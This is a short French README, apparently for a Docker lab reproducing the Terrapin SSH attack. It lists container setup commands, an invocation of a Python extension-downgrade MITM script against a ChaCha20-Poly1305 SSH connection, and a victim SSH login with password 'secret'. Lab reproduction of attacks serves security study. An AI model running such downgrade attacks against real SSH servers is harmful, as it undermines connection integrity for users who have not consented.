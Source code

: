 # commandes

## Démarage

### lancement des conteneurs :
`docker-compose up -d`

`docker-compose ps`

### récupération des ip du serveur et de l'attaquant (pour lancer le script)
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_serveur_1`

`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_attaquant_1`

## Lancement de 3 terminal diff

### terminal server
`docker logs terrapin-attack_serveur_1 -f`

### terminal attaquant
`docker attach terrapin-attack_attaquant_1`
## {ip} remplacer par l'ip directement en dehors des {}
```
python3 ext-downgrade/ext_downgrade_chacha20_poly1305.py --proxy-ip {ip_attaquant} --server-ip {ip_serveur}
```

### terminal victime
`docker attach terrapin-attack_victime_1`
`PATH="$PATH:/install/bin/"`
`ssh victim@{ip_attaquant} -vvv -o Ciphers=chacha20-poly1305@openssh.com` 
(passwd is 'secret')

